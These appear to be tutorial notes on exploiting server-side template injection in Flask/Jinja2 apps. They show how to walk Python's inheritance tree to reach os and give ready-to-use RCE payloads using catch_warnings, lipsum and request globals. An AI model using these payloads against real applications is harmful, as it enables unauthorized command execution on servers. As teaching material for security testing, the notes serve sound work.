 There will be times where we will be needing to construct a custom payload to exploit SSTI vulnerabilities. For example, a template engine that executes templates inside a sandbox, which can make exploitation difficult or impossible.
## Navigating Python Objects and Inheritance Trees
In Python, everything is an object. While this is a fundamental property and feature of the language, we are going to focus on one very particular thing one can do: navigating the inheritance tree of objects and, thus, classes.

1. The first step is to open up a Python environment and understand Python's hierarchy. Using `__mro__` or `mro()`, we can go back up the three of inherited objects in the Python environment.
```python
import flask

s = 'HTB'
s.__class__.mro()[1].__subclasses__()

[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>,
 <SNIP>
```
2. Next is to look for useful classes that can facilitate remote code execution. We can use the following function to do so:
```python
def searchfunc(name):
     x = s.__class__.mro()[1].__subclasses__()
     for i in range(len(x)):
        fn = x[i].__name__
        if fn.find(name) > -1:
            print(i, fn)

searchfunc('warning')
```
The reason we are searching for `warning` is because, this class imports Python's `sys` module, and from `sys`, we can reach the `os` module.
> Note: This is not the only module that can be used for SSTI exploitation. For example, the `_io._IOBase` module can be utilized to read local files. Read more [here](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/).

3. We will now attempt to reach the `import` by walking through the hierarchy.
```python
x = s.__class__.mro()[1].__subclasses__()
y = x[VALUE] # Note: Replace "VALUE" with the actual integer result from searchfunc

z = y()._module.__builtins__
for i in z:
	if i.find('import') > -1:
		print(i, z[i])
```
4. Test for RCE
```python
y()._module.__builtins__['__import__']('os').system('echo RCE')
```
## Custom Jinja2 Payload
We can replicate the steps above to achieve RCE using custom payload in Jinja template.

1. To test, we can start with the following payload
```python
{{ ''.__class__.__mro__ }}
```
2. Once confirmed, show all subclasses or retrieve the total number of subclasses
```python
{{ ''.__class__.__mro__[1].__subclasses__() }}
{{ ''.__class__.__mro__[1].__subclasses__()|length }}
```
3. To make step 2 easier, we can just craft a for loop to put index on all subclasses.
```python
{% for i in range(454) %} {{i}} {{''.__class__.__mro__[1].__subclasses__()[i].__name__}} {% endfor %}

# Note: The value of range() should be the total length of subclasses.
```
4. Again, we will be looking for `catch_warnings` subclass. Once we have identified its index number, we can now craft our final payload to achieve RCE.
```python
{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').system('id')}}
```

Additionally, we can also use specific Jinja2's specific functions to exploit SSTI vulnerabilities. These are the `request` and `lipsum`:
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
```python
{{lipsum.__globals__.os.popen('id').read()}}
```